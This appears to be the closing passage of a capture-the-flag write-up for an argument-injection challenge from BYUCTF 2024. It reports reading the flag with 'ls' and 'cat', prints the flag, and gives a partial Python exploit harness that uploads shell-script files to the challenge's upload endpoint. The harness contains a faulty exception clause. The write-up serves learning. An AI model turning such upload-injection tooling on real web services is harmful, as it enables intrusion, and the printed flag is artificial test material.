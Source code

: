 We make a `ls /` to retrieve the name of the flag file and then we make a `cat`.


![image](/assets/img/byuctf24/pwned.png)

The flag is **`byuctf{argument_injection_stumped_me_the_most_at_D3FC0N_last_year}`** !

## Exploit code

```python
#!/usr/bin/env python3

from uuid import uuid4
import requests
import base64
import urllib3
urllib3.disable_warnings()

base_url = "https://argument.chal.cyberjousting.com"
# base_url = "http://127.0.0.1:1337"

routes = {
  "home": f"{base_url}/",
  "download": f"{base_url}/api/download",
  "upload": f"{base_url}/api/upload"
}

class Exploit:
  def __init__(self, s):
    self.uuid = uuid4()
    self.s = s
    self.s.verify = False
    self.s.proxies = {'http':'0.0.0.0:8080', 'https':'0.0.0.0:8080'}
    self.routes = routes
    self.s.get(self.routes['home'])


  def download(self):
    return self.s.get(self.routes["download"]).content.decode().strip().replace('\0', '')


  def upload(self, filename, data):
    files = {
      'file': (filename, data, 'application/x-shellscript'),
    }
    try:
      r = self.s.post(self.routes['upload'], files=files)
    except err as e:
      print("Something went wrong", e)


if __name__ == "__main__":
  x = Exploit(requests.session())
```